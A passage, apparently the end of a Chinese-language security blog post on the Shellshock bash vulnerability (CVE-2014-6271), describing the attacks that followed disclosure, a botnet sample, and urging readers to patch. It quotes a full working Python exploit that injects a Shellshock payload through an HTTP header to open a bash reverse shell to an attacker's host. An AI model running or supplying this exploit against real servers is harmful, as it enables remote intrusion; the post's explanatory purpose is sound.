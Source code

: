 ### 后续故事

这个漏洞引起的故事并没有因为补丁而结束，因为这个星球上有太多人不会那么care这个漏洞，也就是说他们不会即时的去打补丁，而从攻击者的一方而言，从漏洞公开已经出现了很多类似：

```
------------------------------------------------------------------------
    #
    #CVE-2014-6271 cgi-bin reverse shell
    #

    import httplib,urllib,sys

    if (len(sys.argv)<4):
            print "Usage: %s <host> <vulnerable CGI> <attackhost/IP>" % sys.argv[0]
            print "Example: %s localhost /cgi-bin/test.cgi 10.0.0.1/8080" % sys.argv[0]
            exit(0)

    conn = httplib.HTTPConnection(sys.argv[1])
    reverse_shell="() { ignored;};/bin/bash -i >& /dev/tcp/%s 0>&1" % sys.argv[3]

    headers = {"Content-type": "application/x-www-form-urlencoded",
            "test":reverse_shell }
    conn.request("GET",sys.argv[2],headers=headers)
    res = conn.getresponse()
    print res.status, res.reason
    data = res.read()
    print data
------------------------------------------------------------------------

```

的工具，Shellshock比heartbleed更容易自动化的去攻击目标，漏洞本身的特性带来了最糟糕的情况就是蠕虫的产生，这种担心已经得到了证实：

https://gist.github.com/anonymous/929d622f3b36b00c0be1

虽然目前的样本不是蠕虫，但很明显，僵尸网络的狂欢已经开始，从目前样本的情况看，这是一个有C&C功能的botnet，"她"会先寻找busybox的目标，然后尝试入侵目标机，之后尝试提权，这个恶意软件主要目的是利用肉鸡来DDOS，攻击者的下一个目标将会是WEB。

通常来讲，一个漏洞曝光到自动化利用会在24小时内完成，所以各位抓紧时间打补丁。

[[1] BASH](http://www.gnu.org/software/bash/)[[2] Bash specially-crafted environment variables code injection attack](https://securityblog.redhat.com/2014/09/24/bash-specially-crafted-environment-variables-code-injection-attack/)[[3] CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271)[[4] CVE-2014-7169](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169)[[5] CVE-2014-6271: remote code execution through bash](http://seclists.org/oss-sec/2014/q3/651)
